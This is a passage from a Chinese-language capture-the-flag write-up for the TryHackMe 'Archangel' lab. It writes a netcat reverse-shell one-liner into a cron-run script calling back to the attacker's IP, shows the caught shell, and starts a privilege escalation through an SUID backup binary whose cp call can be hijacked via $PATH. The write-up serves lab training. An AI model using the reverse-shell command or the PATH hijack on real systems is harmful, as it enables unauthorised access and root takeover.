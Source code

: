 ```

## 写shell到定时任务
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.21.169 4242 >/tmp/f" >> /opt/helloworld.sh
```

## 接收到反弹shell
```
┌──(root💀kali)-[~/tryhackme/Archangel]
└─# nc -lnvp 4242 
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.228.134] 37592
/bin/sh: 0: can't access tty; job control turned off
$ whoami
archangel
$ id
uid=1001(archangel) gid=1001(archangel) groups=1001(archangel)
$ 

```

在```/home/archangel/secret```拿到第二个user.txt

# 提权

同文件夹有一个backup文件有SUID权限，下载到靶机用strings命令分析，发现有一个shell片段是：
```
┌──(root💀kali)-[~/tryhackme/Archangel]
└─# strings backup
/lib64/ld-linux-x86-64.so.2
setuid
system
__cxa_finalize
setgid
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
cp /home/user/archangel/myfiles/* /opt/backupfiles
```

## 分析

我们观察上面这一行shell代码
```
cp /home/user/archangel/myfiles/* /opt/backupfiles
```

代码本身是说把```/home/user/archangel/myfiles/*```上的内容通过cp命令拷贝到```/opt/backupfiles```

我们知道，SUID文件是普通用户能够以root运行的文件，这个cp在这个文件虽然是普通用户组发出的命令，但是却是以root身份运行的，也就是说如果我们能够劫持这个命令，改写它的内容，我们就可以利用它来提权。

在linux里，所有用户命令都存储在他的$PATH环境变量里，当我们在终端敲下一个个命令时，linux服务器会从当下用户的环境变量路径里一个个的查找有没有这个命令。如果命令的binary文件存在则执行，不存在则报```command not found```。

## 开始提权

### 查看当前用户的环境变量$PATH
```